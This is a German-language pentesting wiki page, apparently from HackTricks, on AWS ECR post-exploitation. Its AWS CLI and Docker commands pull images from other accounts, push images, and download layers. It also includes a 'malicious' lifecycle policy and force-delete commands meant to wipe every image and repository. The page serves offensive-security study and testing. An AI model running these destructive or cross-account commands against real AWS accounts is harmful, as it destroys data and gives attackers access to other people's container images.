 # AWS - ECR Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## ECR

Für weitere Informationen siehe

{{#ref}}
../aws-services/aws-ecr-enum.md
{{#endref}}

### Anmelden, Pull & Push
```bash
# Docker login into ecr
## For public repo (always use us-east-1)
aws ecr-public get-login-password --region us-east-1 | docker login --username AWS --password-stdin public.ecr.aws/<random-id>
## For private repo
aws ecr get-login-password --profile <profile_name> --region <region> | docker login --username AWS --password-stdin <account_id>.dkr.ecr.<region>.amazonaws.com
## If you need to acces an image from a repo if a different account, in <account_id> set the account number of the other account

# Download
docker pull <account_id>.dkr.ecr.<region>.amazonaws.com/<repo_name>:latest
## If you still have the error "Requested image not found"
## It might be because the tag "latest" doesn't exit
## Get valid tags with:
TOKEN=$(aws --profile <profile> ecr get-authorization-token --output text --query 'authorizationData[].authorizationToken')
curl -i -H "Authorization: Basic $TOKEN" https://<account_id>.dkr.ecr.<region>.amazonaws.com/v2/<img_name>/tags/list

# Inspect the image
docker inspect sha256:079aee8a89950717cdccd15b8f17c80e9bc4421a855fcdc120e1c534e4c102e0

# Upload (example uploading purplepanda with tag latest)
docker tag purplepanda:latest <account_id>.dkr.ecr.<region>.amazonaws.com/purplepanda:latest
docker push <account_id>.dkr.ecr.<region>.amazonaws.com/purplepanda:latest

# Downloading without Docker
# List digests
aws ecr batch-get-image --repository-name level2 \
--registry-id 653711331788 \
--image-ids imageTag=latest | jq '.images[].imageManifest | fromjson'

## Download a digest
aws ecr get-download-url-for-layer \
--repository-name level2 \
--registry-id 653711331788 \
--layer-digest "sha256:edfaad38ac10904ee76c81e343abf88f22e6cfc7413ab5a8e4aeffc6a7d9087a"
```
Nachdem Sie die Bilder heruntergeladen haben, sollten Sie **sie auf sensible Informationen überprüfen**:

{{#ref}}
https://book.hacktricks.xyz/generic-methodologies-and-resources/basic-forensic-methodology/docker-forensics
{{#endref}}

### `ecr:PutLifecyclePolicy` | `ecr:DeleteRepository` | `ecr-public:DeleteRepository` | `ecr:BatchDeleteImage` | `ecr-public:BatchDeleteImage`

Ein Angreifer mit einer dieser Berechtigungen kann **eine Lebenszyklusrichtlinie erstellen oder ändern, um alle Bilder im Repository zu löschen** und dann **das gesamte ECR-Repository löschen**. Dies würde zum Verlust aller im Repository gespeicherten Containerbilder führen.
```bash
bashCopy code# Create a JSON file with the malicious lifecycle policy
echo '{
"rules": [
{
"rulePriority": 1,
"description": "Delete all images",
"selection": {
"tagStatus": "any",
"countType": "imageCountMoreThan",
"countNumber": 0
},
"action": {
"type": "expire"
}
}
]
}' > malicious_policy.json

# Apply the malicious lifecycle policy to the ECR repository
aws ecr put-lifecycle-policy --repository-name your-ecr-repo-name --lifecycle-policy-text file://malicious_policy.json

# Delete the ECR repository
aws ecr delete-repository --repository-name your-ecr-repo-name --force

# Delete the ECR public repository
aws ecr-public delete-repository --repository-name your-ecr-repo-name --force

# Delete multiple images from the ECR repository
aws ecr batch-delete-image --repository-name your-ecr-repo-name --image-ids imageTag=latest imageTag=v1.0.0

# Delete multiple images from the ECR public repository
aws ecr-public batch-delete-image --repository-name your-ecr-repo-name --image-ids imageTag=latest imageTag=v1.0.0
```
{{#include ../../../banners/hacktricks-training.md}}
